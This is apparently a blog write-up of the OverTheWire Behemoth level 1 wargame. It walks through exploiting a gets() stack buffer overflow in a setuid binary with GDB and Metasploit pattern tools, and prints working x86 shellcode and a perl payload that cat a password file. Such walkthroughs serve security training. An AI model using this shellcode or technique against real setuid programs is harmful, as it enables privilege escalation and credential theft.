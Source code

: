 ```yaml
---
layout: post
title: OverTheWire - Behemoth 1
---
```


Site: http://overthewire.org/wargames/behemoth/ <br>
Level: 1 <br>
Situation: Simple Buffer Overflow <br><br>

Note: The stack is affected by varying things including the environment.

The memory addresses in GDB will differ from what you see without. Now to correct this we will use a small script called invoker.sh which will help standardize our environments.

{% highlight bash %}
#!/bin/sh

while getopts "dte:h?" opt ; do
  case "$opt" in
    h|\?)
      printf "usage: %s -e KEY=VALUE prog [args...]\n" $(basename $0)
      exit 0
      ;;
    t)
      tty=1
      gdb=1
      ;;
    d)
      gdb=1
      ;;
    e)
      env=$OPTARG
      ;;
  esac
done

shift $(expr $OPTIND - 1)
prog=$(readlink -f $1)
shift
if [ -n "$gdb" ] ; then
  if [ -n "$tty" ]; then
    touch /tmp/gdb-debug-pty
    exec env - $env TERM=screen PWD=$PWD gdb -tty /tmp/gdb-debug-pty --args 
$prog "$@"
  else
    exec env - $env TERM=screen PWD=$PWD gdb --args $prog "$@"
  fi
else
  exec env - $env TERM=screen PWD=$PWD $prog "$@"
fi

{% endhighlight %}

Please note in GDB we still will have to unset the following two environmental variables inside GDB.

{% highlight bash %}
unset env LINES
unset env COLUMNS
{% endhighlight %}

We will also be utilizing a small c program to help us determine the size of our shellcode.

{% highlight c %}

// Shellcalc.c

#include <stdio.h>

char shellcode[] ="shellcodehere";

int main(int argc, char *argv[])
{
       	fprintf(stdout,"Length: %d\n",strlen(shellcode));
}

{% endhighlight %}

For our sake let us make a folder in our temp directory and move our invoker.sh and small c program.

{% highlight bash %}
behemoth1@melinda:~$ ls
behemoth1@melinda:~$ mkdir /tmp/behe1
behemoth1@melinda:~$ cd /tmp/behe1
behemoth1@melinda:/tmp/behe1$ 
{% endhighlight %}

We will do the usual, identify the file type and build, also run it to see what it does.

{% highlight bash %}
behemoth1@melinda:/tmp/behe1$ file /behemoth/behemoth1
/behemoth/behemoth1: setuid ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=6b301db8057be8df8ceead844e81f05764289f92, not stripped
behemoth1@melinda:/tmp/behe1$ ./invoker.sh /behemoth/behemoth1
Password: d
Authentication failure.
Sorry.
{% endhighlight %}

Open in GDB see if there are any interesting calls.

{% highlight bash %}
behemoth1@melinda:/tmp/behe1$ ./invoker.sh -d /behemoth/behemoth1
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
   0x0804845d <+0>:	push   ebp
   0x0804845e <+1>:	mov    ebp,esp
   0x08048460 <+3>:	and    esp,0xfffffff0
   0x08048463 <+6>:	sub    esp,0x60
   0x08048466 <+9>:	mov    DWORD PTR [esp],0x8048530
   0x0804846d <+16>:	call   0x8048310 <printf@plt>
   0x08048472 <+21>:	lea    eax,[esp+0x1d]
   0x08048476 <+25>:	mov    DWORD PTR [esp],eax
   0x08048479 <+28>:	call   0x8048320 <gets@plt>
   0x0804847e <+33>:	mov    DWORD PTR [esp],0x804853c
   0x08048485 <+40>:	call   0x8048330 <puts@plt>
   0x0804848a <+45>:	mov    eax,0x0
   0x0804848f <+50>:	leave  
   0x08048490 <+51>:	ret    
End of assembler dump.

{% endhighlight %}

No easy strcmp, the printf would be interesting if it was displaying input we supplied, could test for a string format vulnerability. There is a "gets" however. Gets grabs user input and stores it into a buffer array. Since its storing input we dictate. We can attempt to overflow the buffer that it stores the input into.

{% highlight bash %}
(gdb) run
Starting program: /games/behemoth/behemoth1 
Password: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Authentication failure.
Sorry.

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
{% endhighlight %}

Alright so looks like we are successfully overflowing the buffer. If we notice we get two signs saying it did. First one is the segfault the second is the address that is segfaulted on 0x41414141. A in hex is 41, so 4 byte address = AAAA = 0x41414141.<br>
Now we need to find out exactly how big of a buffer we need in order to cause a crash. We could guess and randomly insert values but instead we will utilize metasploit's pattern_create.rb tool and the pattern_offset.rb.

{% highlight bash %}
vagabond :: /opt/metasploit-framework » ./tools/pattern_create.rb 150
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
{% endhighlight %}

{% highlight bash %}
(gdb) run
Starting program: /games/behemoth/behemoth1 
Password: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
Authentication failure.
Sorry.

Program received signal SIGSEGV, Segmentation fault.
0x63413663 in ?? ()

{% endhighlight %}

{% highlight bash %}
vagabond :: /opt/metasploit-framework » ./tools/pattern_offset.rb 0x63413663
[*] Exact match at offset 79
{% endhighlight %}


So what we want to do is setup our shellcode inside the 79 byte buffer. This is a lot to work with. At the end of the 79 buffer we can add the new return address in the 4 bytes that follow.

Now before we can create the payload we must first find the start of our stack. This can easily be achieved utilizing the debugger and either "A" or nopsleds. For this example we will use "BBBBAAAA" combination. Using GDB we can locate BBBB in the stack which equates to 0x42424242. We break on the final puts before it says sorry.


{% highlight bash %}
(gdb) disassemble main
Dump of assembler code for function main:
   0x0804845d <+0>:	push   %ebp
   0x0804845e <+1>:	mov    %esp,%ebp
   0x08048460 <+3>:	and    $0xfffffff0,%esp
   0x08048463 <+6>:	sub    $0x60,%esp
   0x08048466 <+9>:	movl   $0x8048530,(%esp)
   0x0804846d <+16>:	call   0x8048310 <printf@plt>
   0x08048472 <+21>:	lea    0x1d(%esp),%eax
   0x08048476 <+25>:	mov    %eax,(%esp)
   0x08048479 <+28>:	call   0x8048320 <gets@plt>
   0x0804847e <+33>:	movl   $0x804853c,(%esp)
   0x08048485 <+40>:	call   0x8048330 <puts@plt>
   0x0804848a <+45>:	mov    $0x0,%eax
   0x0804848f <+50>:	leave  
   0x08048490 <+51>:	ret    
End of assembler dump.
(gdb) break *0x08048485
Breakpoint 1 at 0x8048485
(gdb) run
Starting program: /games/behemoth/behemoth1 
Password: BBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Breakpoint 1, 0x08048632 in main ()
(gdb) find $esp, $esp+500, 0x42424242
0xffffdded
1 pattern found.
(gdb) 

{% endhighlight %}
0xffffdded is the start of our address so we can begin to form our payload. Our payload is going to be structured as follows.

NOP<>SHELLCODE+NOP<>STACKADDRESS

Note: The shellcode used in this example is from another example that cats a file rather then spawns a shell. File is located in /tmp/b2p.

{% highlight bash %}
behemoth1@melinda:/tmp/behe1$ ln -s /etc/behemoth_pass/behemoth2 /tmp/b2p
{% endhighlight %}

Now we need the shellcode and to know the size of it so we utilize our shellcalc application. 

{% highlight bash %}
\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\x68\x2f\x62\x32\x70\x68\x2f\x74\x6d\x70\x89\xe1\x52\x89\xe2\x51\x53\x89\xe1\xcd\x80
{% endhighlight %}

The size of this is 40 bytes. So now we just need to pad the front and back to make our payload. To make it easy on us we will output this to a file called input.txt. That way the bash shell can't affect the values.

Note: We put the address in backwards as we are on a little endian machine.

{% highlight bash %}
perl -e 'print "\x90"x4 . "\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\x68\x2f\x62\x32\x70\x68\x2f\x74\x6d\x70\x89\xe1\x52\x89\xe2\x51\x53\x89\xe1\xcd\x80" . "\x90"x35 . "\xed\xdd\xff\xff"'> input.txt
{% endhighlight %}

Now that we have the proper input.txt we can verify that it works in GDB.

{% highlight bash %}
(gdb) run < input.txt
Starting program: /games/behemoth/behemoth1 < input.txt
Password: Authentication failure.
Sorry.
process 11828 is executing new program: /bin/cat
/bin/cat: /tmp/b2p: Permission denied
[Inferior 1 (process 11828) exited with code 01]
(gdb) quit
{% endhighlight %}

Perfect we see that /bin/cat was called on /tmp/b2p but we don't have permission to read it. This is normal behavior under debuggers and is a countermeasure to help insure that people don't just modify any application that has escalated privileges. To get it to work we have to do it in user space.

{% highlight bash %}
behemoth1@melinda:/tmp/behe1$ ./invoker.sh /behemoth/behemoth1 < input.txt
Password: Authentication failure.
Sorry.
[OMITTED]
{% endhighlight %}

Thats it we have found the password.